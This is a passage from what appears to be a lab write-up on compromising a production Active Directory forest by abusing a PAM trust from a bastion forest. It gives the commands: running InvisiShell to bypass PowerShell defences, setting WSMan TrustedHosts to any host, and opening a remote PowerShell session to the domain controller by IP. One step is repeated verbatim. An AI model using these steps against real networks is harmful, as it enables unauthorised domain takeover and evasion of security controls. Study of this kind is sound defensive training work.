Now on the new session as bastion.local domain admin we can now access the production.local domain controllar using its IP. By default, PowerShell Remoting relies on WSMan (Windows Remote Management), which uses Kerberos authentication when connecting to a domain-joined machine. However, Kerberos does not support IP addresses because it relies on SPNs (Service Principal Names), which require a hostname. We must modify the WSMan Trustedhosts property on our attacking machine since we will be remote accessing from techcorp.local. Let’s now run InvisiShell to bypass the Powershell defense mechanisms before we get to make the proper configuration for the remote access. .\RunWithRegistryNonAdmin.bat
Let’s now modify the WSMan Trustedhosts property before we try to login. Set-Item WSMan:\localhost\Client\TrustedHosts * -Force Now we can access the production.local using PowerShell Remoting enforcing 'NegotiateWithImplicitCredential' for the authentication.
Enter-PSSession 192.168.102.1 -Authentication 'NegotiateWithImplicitCredential'
Now we can access the production.local using PowerShell Remoting enforcing 'NegotiateWithImplicitCredential' for the authentication.
Enter-PSSession 192.168.102.1 -Authentication 'NegotiateWithImplicitCredential'

Voila, we were able to compromise the production forest by abusing PAM Trust between a Bastion(Admin) Forest to a Production(Users) Forest.